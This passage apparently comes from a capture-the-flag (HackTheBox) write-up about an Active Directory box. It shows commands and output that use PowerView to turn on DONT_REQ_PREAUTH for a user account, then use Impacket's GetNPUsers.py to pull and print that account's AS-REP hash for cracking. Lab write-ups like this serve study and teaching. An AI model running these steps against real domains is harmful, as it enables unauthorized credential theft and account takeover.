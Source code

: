 Once I do that, I can load `PowerView.ps1`:

```
*Evil-WinRM* PS C:\programdata> Import-Module .\PowerView.ps1                             

```

### Get AS-REP Hash

In [Forest](/2020/03/21/htb-forest.html#as-rep-roasting) I used AS-REP Roasting to get a foothold on the machine. Here, because I can edit the attributes for the user, I’m going to enable the `DONT_REQ_PREAUTH` flags on the jorden account, and then get that same hash and crack it.

If I look at what is currently set for the jorden user, it’s the `NORMAL_ACCOUNT` and `DONT_EXPIRE_PASSWORD` flags:

```
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536

```

For each user, there’s a 4-byte (64-bit) word that represents [various flags for userAccountControl](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm). The bit for `UF_DONT_REQUIRE_PREAUTH` is 4194304. So I can XOR that bit (flip it to on) with the following command:

```
*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=MEGACORP,DC=LOCAL
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
DONT_REQ_PREAUTH               4194304

```

Once I flip that, I can get the hash from my Kali machine:

```

root@kali# GetNPUsers.py -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden
Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for jorden
$krb5asrep$23$jorden@MEGACORP:a73d19d63b09964cc6e097172e767f9b$31da65f338ec20aae3fe4c1cede839fdf534fdfa878b6dcd8a0c7acd0453c98b6621d03ab22b38423de129f6de81266ef985eb7d655eb963fcbbc1935dc60bac0dad858b627c469b6a56a30b8e84b682576efbb0896d3ffcee4ae5e41bc621769cb329af2fe3f596828f24349c44c341383352d717f43db48bfde182113102e3b5ed51109ed1b09eb5a97b3afbb0f112abe362ba1de5feef2784743d72759236ce7eac39b3372ac29bd868787ffa9752dea356c93b66522b99ab7019a623e5fdc49fb645792ee5f183697105440966ca027a9060a9a7577ea5bdfc8566e6aea599f9ada7af30997309ca

```
